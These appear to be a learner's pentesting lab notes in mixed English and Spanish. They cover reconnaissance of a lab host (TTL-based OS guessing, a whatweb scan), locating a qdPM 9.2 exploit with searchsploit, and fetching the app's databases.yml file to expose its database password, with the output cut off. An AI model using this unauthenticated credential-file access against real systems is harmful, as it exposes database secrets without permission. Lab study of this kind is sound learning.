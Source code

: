 19He have a funcitonality that creates three dirs at the same time (mkt)


### MKT ###
mkt () {
mkdir  {nmap,content,exploits}
}

nmap
exploits
content

Face de "reconocimiento"

The guy said when it was a ttl 64 the S0 is linux and windows 128 ttl
### WHICHSISTEM.PY ###
I have to get it. And add it to the $PATH variable 
/usr/bin/whichSystem.py

whichSystem.py 192.168.0.36 

cat -l ruby (it is beter, and cute) #ruby

#whatweb

whatweb http://192.168.0.38
Aplicates a search about the technologies that are behind of the website

```
http://192.168.0.38 [200 OK] Apache[2.4.48], Bootstrap, Cookies[qdPM8], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.48 (Debian)], IP[192.168.0.38], JQuery[1.10.2], PasswordField[login[password]], Script[text/javascript], Title[qdPM | Login], X-UA-Compatible[IE=edge]
```
Antique versions of jquery and other things are vulnerable to #XSS-attack and #Prototype-polution
qdpm is vulnerable
[qdPM 9.2](http://qdpm.net/) vulnerable to password exposure
```
sudo searchsploit qdPM 9.2
[sudo] contraseña para cds: 
------------------------------ ---------------------------------
 Exploit Title                |  Path
------------------------------ ---------------------------------
qdPM 9.2 - Cross-site Request | php/webapps/50854.txt
qdPM 9.2 - Password Exposure  | php/webapps/50176.txt
```

searchsploit -x

```
 Exploit Title: qdPM 9.2 - DB Connection String and Password Exposure (Unauthenticated)
 Date: 03/08/2021
 Exploit Author: Leon Trappett (thepcn3rd)
 Vendor Homepage: https://qdpm.net/
 Software Link: https://sourceforge.net/projects/qdpm/files/latest/download
 Version: 9.2
 Tested on: Ubuntu 20.04 Apache2 Server running PHP 7.4

The password and connection string for the database are stored in a yml file. To access the yml file you can go to http://< website >/core/config/databases.yml file and download.
~
~
```
http://192.168.100.49/core/config/databases.yml 
Password ...
```
all:
  doctrine:
    class: sfDoctrineDatabase
    param:
```